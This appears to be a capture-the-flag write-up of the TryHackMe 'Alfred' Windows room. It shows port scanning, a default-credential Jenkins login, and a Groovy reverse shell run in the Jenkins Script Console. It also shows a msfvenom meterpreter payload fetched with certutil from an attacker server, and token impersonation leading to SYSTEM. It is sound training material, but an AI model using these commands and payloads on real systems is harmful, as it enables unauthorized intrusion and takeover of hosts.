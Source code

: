 ```yaml
---
layout: post
title: "Alfred"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, Jenkins, Groovy-reverse-shell, metasploit, impersonation, SeImpersonatePrivilege]
image: ../../assets/img/posts/alfred.png 

---
```


## Description

Exploit Jenkins to gain an initital shell, then escalate your privileges by exploiting Windows authentication tokens.

|**Room**|[Alfred](https://tryhackme.com/room/alfred)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.183.220 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187151685-896c90bc-46c9-4b47-9c30-fef742efdf7f.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p80,3389,8080 10.10.183.220 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187151745-bd3042aa-feea-4faf-b6d4-896ac0665b5c.png)

Result scan shows that port 80 is running Microsoft IIS server, port 3389 is running some unknown service and port 8080 is running webserver with Jetty service installed. 

Let's begin enumeration with port 80 by visiting http://10.10.183.220,

![image](https://user-images.githubusercontent.com/67465230/187151845-7dd42e0f-0215-4e7a-b5d8-ff094cd1eae4.png)

we landed on the webpage where we can see the picture of Bruce Wayne and below it, we can see the email id associated with the last name of the Bruce Wayne. 

But after looking around, checking its source code, I couldn't found anything so I decided to enumerate port 8080.

Let's visit http://10.10.183.220:8080,

![image](https://user-images.githubusercontent.com/67465230/187152278-42a8ecbc-24c4-40e1-9cdb-7c135412b050.png)

we found a Jenkins login page. 

From here, we can try to brute force user credentials to gain access to the panel but since this box is pretty straight forward, I tried admin:admin credentials and was successful in getting into admin panel,

![image](https://user-images.githubusercontent.com/67465230/187152365-15d225ee-683d-4411-a7ce-b135549665ec.png)

so we got into admin panel and here we can see the dashboard where we can add new item, see the build history, manage jenkins, etc. 

After enumerating the panel, I counter a tab name **Manage Jenkins** where we can get into **Script Console**, having the functionality where we can run the Groovy script (or *commands maybe*),

![image](https://user-images.githubusercontent.com/67465230/187156058-6067beb3-0385-4d41-aaa0-f13a77563382.png)

So we can copy the [Groovy Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) and paste it into the console, 

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Let's start the netcat listener using `nc -nvlp 4444` and hit the run button on the console and we'll get a reverse shell,

![image](https://user-images.githubusercontent.com/67465230/187156100-17d5ef93-606e-4a8b-8c0e-bab1c873c4e0.png)

Now, that we know that we're bruce user, we can navigate to Desktop directory and get the flag,

![image](https://user-images.githubusercontent.com/67465230/187156150-b7ae58d2-2756-44fb-806b-839dabf4d947.png)

Now, that we got the flag, we can now generate a malicious payload using `msfvenom` and catch the connection with metasploit handler. So let's generate a payload,

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.171 LPORT=5555 -f exe -o cat.exe
```

![image](https://user-images.githubusercontent.com/67465230/187156192-44f1d131-8d6f-4c58-a6ec-7b4726afcd55.png)

our payload gets generated. 

Now, start the server using `python3 -m http.server` and now we can transfer the payload using `certutil` command to target machine, 

```bash
certutil -urlcache -f http://10.9.3.171:8000/cat.exe cat.exe
```

![image](https://user-images.githubusercontent.com/67465230/187156653-887806c6-dd23-4a28-8270-2ac6bce5ae5f.png)

our payload is transferred successfully.

Now, we can setup metasploit multi/handler to catch reverse shell,

```bash
msfconsole -q
use exploit/multi/handler
set LHOST tun0
```

![image](https://user-images.githubusercontent.com/67465230/187156749-34584351-a774-480a-8810-91de28a51481.png)

Let's run the listener using `run` command and then fire up the exploit using cat.exe and we'll get the meterpreter session opened for us,

![image](https://user-images.githubusercontent.com/67465230/187156822-b6297adc-6f8f-4112-9fd3-65b67b225d64.png)

Now that we have meterpreter shell, we have much more functionality as meterpreter shells are tend to be more stable and supports many in-built commands. 

Now, let's check the current privileges we have using `getprivs` command,

![image](https://user-images.githubusercontent.com/67465230/187156887-aada2ff3-9d71-4ab3-bdd2-dcd46ef1a8f6.png)

we got the list of privileges but here we can see the **SeImpersonatePrivilege** privilege which stands out the most important to us as by abusing this, we can impersonate use as SYSTEM user.

In this challenge, we'll be looking at `incognito` command, *which allows us to impersonate user tokens when successfully compromising a system*. So let's load the incognito mode in meterpreter using, 

```bash
load incognito
```

![image](https://user-images.githubusercontent.com/67465230/187156949-6b62ec19-4abf-4249-ad87-b361c53635e1.png)

Now, we can list all the available tokens of the group,

```bash
list_tokens -g
```

![image](https://user-images.githubusercontent.com/67465230/187157001-d7d28dc0-76e1-433e-ab73-bd58ce259d4b.png)

we can see that there are many tokens available but BUILTIN\Administrators token is useful so let's use it.

Impersonating with BUILTIN\Administrators token,

```bash
impersonate_token "BUILTIN\Administrators"
```

![image](https://user-images.githubusercontent.com/67465230/187157040-fefc4a54-f0fc-4807-a14a-a2574b4aa4db.png)

we have successfully impersonated as NT AUTHORITY\SYSTEM user. 

Now if try to dump hashes using `hashdump` command, hashes won't get dump because even if we have become NT AUTHORITY\SYSTEM user, we still not have permissions to dump the hashes. 

So we can do one thing is that we can migrate to the process which is running as NT AUTHORITY\SYSTEM user. So listing processes using `ps` command, 

![image](https://user-images.githubusercontent.com/67465230/187157096-c3a551f8-d61c-458f-adef-7c6142282295.png)

we can see the lsass.exe service which is running as NT AUTHORITY\SYSTEM user which has PID equals 676.

So we can try to migrate our current process to PID 676, 

```bash
migrate 676
```

![image](https://user-images.githubusercontent.com/67465230/187157147-12dcea54-4697-4f13-b3ba-b980273efbc8.png)

with this command, we have successfully migrated to other process and have retain the privileges as NT AUTHORITY\SYSTEM user.

Now, let's drop into the `shell` and issuing `whoami` command and we got to know that we are NT AUTHORITY\SYSTEM user,

![image](https://user-images.githubusercontent.com/67465230/187157198-92008b03-221b-4ecd-99e0-ee761fb9aefa.png)

Navigating to **C:\Windows\System32\Config** and we can see the root.txt file, 

![image](https://user-images.githubusercontent.com/67465230/187157267-bb5bf501-ef94-49e5-88df-16d04d5cae33.png)
